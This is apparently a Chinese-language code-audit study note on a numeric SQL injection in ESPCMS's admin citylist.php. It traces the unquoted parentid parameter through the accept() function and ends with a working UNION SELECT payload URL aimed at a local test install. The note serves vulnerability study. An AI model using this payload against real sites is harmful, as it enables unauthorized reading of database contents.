



## espcms-citylist注入


# 前言

- 代码审计学习-espcms
- 开始日期：2021-5.28
- 结束日期: 2021-5.28


## 环境准备
- PHPStudy
- espcms 源码
    - 下载地址：http://down.chinaz.com/soft/27695.htm
- Seay源代码审计工具

**环境搭建**

将epscms的upload里面所有源码放到网站www目录下,访问地址http://127.0.0.1/install，一路继续即可，注意数据库用户和密码改为自己的



## 审计过程

首先用seay源代码审计系统跑一下自动审计，如图：



分析其中的citylist.php文件(/adminsoft/control/citylist.php)
```php
$sql = "select * from $db_table where parentid=$parentid";
```
该SQL语句没有引号保护，可能存在数字型注入。 

定位$parentid变量

```php
$parentid = $this->fun->accept('parentid', 'R');
$parentid = empty($parentid) ? 1 : $parentid;

$sql = "select * from $db_table where parentid=$parentid";
$rs = $this->db->query($sql);
```

$parentid变量在oncitylist()函数中，是accept('parentid', 'R')函数的返回值，右键定位accept函数。

```php
	function accept($k, $var='R', $htmlcode=true, $rehtml=false) {
		switch ($var) {
			case 'G':
				$var = &$_GET;
				break;
			case 'P':
				$var = &$_POST;
				break;
			case 'C':
				$var = &$_COOKIE;
				break;
			case 'R':
				$var = &$_GET;  //让parentid变成变量
				if (empty($var[$k])) { //$_GET['parentid']
					$var = &$_POST;
				}
				break;
		}
		$putvalue = isset($var[$k]) ? $this->daddslashes($var[$k], 0) : NULL;
		return $htmlcode ? ($rehtml ? $this->preg_htmldecode($putvalue) : $this->htmldecode($putvalue)) : $putvalue;
	}

```
由此可知，这是一个获取GET、POST、COOKIE参数值的函数，我们传入的变量是parentid和R，则代表在GET与POST都可以获取parentid参数，最后经过了一个daddslashes函数，本质上是包装的addslashes()函数，对单双引号、反斜杆与空进行过滤。但前面的SQL语句是没有引号包含，存在数字型注入。

在citylistphp文件可用看到SQL语句在oncitylist()函数中，同时该函数又在important类中，右键选中该类名进行全局搜索。可以发现在index.php有实例化的类。

```php
$point = indexget('point', 'R'); //获取过滤后的point
$point = empty($point) ? 'admin' : $point;
$archive = indexget('archive', 'R'); //获取过滤后的$archive
$archive = empty($archive) ? 'adminuser' : $archive;
$action = indexget('action', 'R');//获取过滤后的action
$action = empty($action) ? 'login' : $action;
$soft_MOD = array('admin', 'public', 'product', 'forum', 'filemanage', 'basebook', 'member', 'order', 'other', 'news', 'inc', 'cache', 'bann', 'logs', 'template');
if (in_array($point, $soft_MOD)) {
	include admin_ROOT . adminfile . "/control/$archive.php";
	$control = new important();
	$action = 'on' . $action;
	if (method_exists($control, $action)) {
		$control->$action();
	} else {
		exit('错误：系统方法错误！');
	}
```

indexget函数跟accept函数功能是一样的。

### 漏洞触发

开头SQL语句位于`oncitylist()`函数，该函数时`important`类的成员函数，其所在文件为`/adminsoft/control/citylist.php`,因此上面文件包含我们先要包含这个文件，即`$archive=citylist`。

$archive 变量的取值范围是 /adminsoft/control 下的文件名，默认为 adminuser。
$action 变量的值，在其前加上 on 就是上述文件里的函数名，默认为 login。


payload如下：
```payload
http://127.0.0.1/adminsoft/index.php?archive=citylist&action=citylist&parentid=-1%20union%20select%201,2,user(),4,5
```



黑盒测试发现得先需要登录后台才能利用，实战中并没有多大利用，就当代码审计学习了。
### Resource
https://6xian.github.io/2018/04/22/codes-audit-basic-espcms-numeric-sqli/

https://www.codenong.com/cs107094320/